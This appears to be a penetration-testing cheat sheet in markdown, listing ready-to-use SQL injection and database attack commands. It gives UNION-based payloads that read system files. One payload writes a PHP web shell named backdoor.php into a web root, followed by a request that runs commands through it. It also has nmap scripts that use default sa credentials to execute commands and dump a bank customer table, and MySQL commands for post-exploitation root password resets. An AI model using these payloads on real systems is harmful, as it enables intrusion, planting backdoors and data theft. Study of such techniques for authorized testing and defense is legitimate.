 #### Reading Files with SQLi
```sql
select * from comments where id=738 union select 1,2,3,4,load_file('c:/windows/system32/drivers/etc/hosts'),6;
```

#### Writing Files with SQLi
```sql
select * from comments where id=738 union select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into outfile 'c:/xampp/htdocs/backdoor.php';
```

```
192.168.1.23/backdoor.php?cmd=ipconfig
```

#### MSSQL Xp_Cmdshell and Dumping
```sh
nmap -T4 -n -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=abc,ms-sql-xp-cmdshell.cmd='whoami' 192.168.1.23 # command execution
nmap -T4 -n -p 1433 --script ms-sql-tables --script-args mssql.username=sa,mssql.password=abc 192.168.1.23 # dump tables information
nmap -T4 -n -p 1433 --script ms-sql-query --script-args mssql.username=sa,mssql.password=abc,mssql.database=bankdb,ms-sql-query.query="select * from tblCustomers;" 192.168.1.23 # sql query
```

#### MySQL CLI
Low-priv shells may not be interactive, so remember to use `-e` to execute SQL queries:
```sh
mysql -uroot -pzaq1xsw2cde3 -e 'show databases;'
mysqladmin -u root password YOURNEWPASSWORD # resetting root password, good for post exploitation, may not work all the time
```

